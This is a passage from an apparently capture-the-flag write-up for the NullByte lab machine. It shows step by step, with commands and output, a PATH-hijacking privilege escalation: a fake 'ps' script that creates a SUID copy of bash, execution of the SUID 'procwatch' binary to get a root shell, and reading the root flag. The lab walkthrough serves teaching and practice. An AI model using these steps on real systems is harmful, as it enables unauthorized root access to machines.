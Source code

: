 		```
	2. Create binary to spawn root shell
		```
		ramses@NullByte:~$ echo "cp /bin/bash /tmp/rootbash && chmod u+s /tmp/rootbash" > /tmp/ps; chmod 4777 /tmp/ps;
		ramses@NullByte:~$ ls -l /tmp
		total 8
		-rwsrwxrwx 1 ramses ramses   54 Feb  4 05:49 ps
		drwx------ 3 root   root   4096 Feb  4 02:11 systemd-private-dc0b6a1de996417bb76e2cd0ae273e30-cups.service-2HAlbf
		ramses@NullByte:~$ 
		```
	3. Check if `ps` from `/tmp` directory is called first, before `/bin/ps`
		```
		ramses@NullByte:~$ which ps
		/tmp/ps
		ramses@NullByte:~$
		```
	4. Execute `procwatch` to create root shell
		```
		ramses@NullByte:~$ /var/www/backup/procwatch
		ramses@NullByte:~$ ls -l /tmp
		total 1088
		-rwsrwxrwx 1 ramses ramses      54 Feb  4 05:49 ps
		-rwsr-xr-x 1 root   ramses 1105840 Feb  4 05:50 rootbash
		drwx------ 3 root   root      4096 Feb  4 02:11 systemd-private-dc0b6a1de996417bb76e2cd0ae273e30-cups.service-2HAlbf
		ramses@NullByte:~$ 
		```
	5. Obtain root shell
		```
		ramses@NullByte:~$ /tmp/rootbash -p
		rootbash-4.3# id;whoami
		uid=1002(ramses) gid=1002(ramses) euid=0(root) groups=1002(ramses)
		root
		rootbash-4.3# 
		```
		![](images/Pasted%20image%2020220203215116.png)
6. Root Flag
	```
	rootbash-4.3# cat proof.txt 
	adf11c7a9e6523e630aaf3b9b7acb51d
